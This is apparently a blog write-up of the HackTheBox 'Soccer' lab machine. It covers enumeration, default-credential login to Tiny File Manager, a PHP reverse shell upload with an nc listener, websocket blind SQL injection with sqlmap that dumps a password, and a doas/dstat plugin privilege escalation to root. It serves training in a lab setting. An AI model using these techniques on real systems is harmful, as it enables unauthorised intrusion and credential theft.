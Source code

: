 ```yaml
---
layout: post
title: "HTB: Soccer"
author: Andrew Cherney
date: 2023-06-17 11:30:20
tags: htb easy-box
icon: "assets/icons/soccer.png"
post_description: "Rev up that default credential list and reverse shell, since to get www-data you need to find the CMS and abuse both. Next your knowledge of websockets better be up to par, as a middleman server is needed to scrape an SQL database on a websocket. Last and certainly least GTFOBins gives us root."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Soccer]
└──╼ $nmap -sC 10.10.11.194
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-25 14:17 CST
Nmap scan report for 10.10.11.194
Host is up (0.053s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)
80/tcp   open  http
|_http-title: Did not follow redirect to http://soccer.htb/
9091/tcp open  xmltec-xmlmail
```

<h2>Port 80 - http</h2>

{% include img_link src="/img/soccer/Soccer_front_page" alt="front_page" ext="png" trunc=600 %}

Scanning for more content I find a reference to tiny.

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Soccer]
└──╼ $gobuster dir --url http://soccer.htb/ --wordlist /opt/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://soccer.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/02/25 15:04:46 Starting gobuster in directory enumeration mode
===============================================================
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
```

<h1>User as www-data</h1>

<h2>Default Creds</h2>

![Tiny File Manager](/img/soccer/Soccer_tiny_file_manager.png)

I dig around for a bit before deciding to try some default credentials. For this service admin:admin@123 are the defaults.

![Admin login](/img/soccer/Soccer_admin_login.png)

<h2>Reverse Shell Upload</h2>

Here we can see and interact with uploads on the site. If I head to the tiny/uploads directory I probably have access and can upload a pentestmonkey reverse shell. 

![Shell upload](/img/soccer/Soccer_shell_upload.png)

Now if I head to **http://soccer.htb/tiny/uploads/shell.php** I will get my reverse shell.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Soccer]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.194] 38740
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 21:25:37 up  1:09,  0 users,  load average: 0.04, 0.04, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1035): Inappropriate ioctl for device
bash: no job control in this shell
www-data@soccer:/$
```

Slight note, I did notice there was some maintenance happening and the shell would occasionally be removed. 

<h1>User as player</h1>

Using a python http server and wget I transfer over linpeas and see what is out there. But I didnt see anything, and that reminded me of a principle in easy/medium boxes that if it looks out of place or abnormal it's probably important. Cut to port 9091 again, let's revisit this now that we think www-data might be a dead end.

<h2>WebSocket</h2>

I can interact with this as a web socket with websocat. There isnt an official release for Debian so I needed to use [this release for generic linux](https://github.com/vi/websocat/releases/tag/v1.9.0). Then after making the command executable I can attempt to connect to that service.

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Soccer]
└──╼ $./websocat_linux64 ws://soccer.htb:9091 -v
[INFO  websocat::lints] Auto-inserting the line mode
[INFO  websocat::stdio_threaded_peer] get_stdio_peer (threaded)
[INFO  websocat::ws_client_peer] get_ws_client_peer
[INFO  websocat::ws_client_peer] Connected to ws
```

<h2>SQLmap</h2>

Excellent, I have connected to WebSocket. Now in searching for vulnerabilities I found [this blind sqli over websocket](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html). After much messing around with python libraries, and changing two lines, I managed to get the middleman server working so I can run sqlmap on the target.

Lines changed:

```
ws_server = "ws://soccer.htb:9091/"
	data = '{"id":"%s"}' % message
```

In short the script will set up a local server on port 8081 which will handle all requests to be compliant with the requested data on the websocket. 

```bash
python3 websockpwn.py
sqlmap -u "http://localhost:8081/?id=1" --batch -dbs
.....
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
sqlmap -u "http://localhost:8081/?id=1" --tables soccer_db
.....
[16:59:05] [INFO] retrieved: 
[16:59:23] [ERROR] invalid character detected. retrying..
accou
[17:00:51] [ERROR] invalid character detected. retrying..
nts
sqlmap -u "http://localhost:8081/?id=1" -D soccer_db -T accounts --dump
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Soccer]
└──╼ $ssh player@soccer.htb
player@soccer:~$ cat user.txt
5d81a3a0800c3-------------------
```

<h1>Root</h1>

<h2>doas</h2>

```bash
player@soccer:~$ find / -perm /4000 2>/dev/null
/usr/local/bin/doas
```

Looking around I can find that doas has a config file:

```bash
player@soccer:/usr/local/bin$ cat ../etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

I search for a dstat directory that I can write in since dstat will likely check there automatically. 

```bash
player@soccer:/usr/local/bin$ find / -name dstat 2>/dev/null
/usr/share/doc/dstat
/usr/share/dstat
/usr/local/share/dstat
/usr/bin/dstat
```

I pick the local share directory and find that GTFOBins has a dstat shell command and I will use that to gain a root shell through doas. 


```bash
player@soccer:/usr/local/share/dstat$ echo 'import os; os.execv("/bin/sh", ["sh"])' > dstat_xxx.py
player@soccer:/usr/local/share/dstat$ doas -u root "/usr/bin/dstat --xxx"
doas: Operation not permitted
player@soccer:/usr/local/share/dstat$ doas -u root /usr/bin/dstat --xxx
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
# cat /root/root.txt
ce73f1552a8828------------------
```


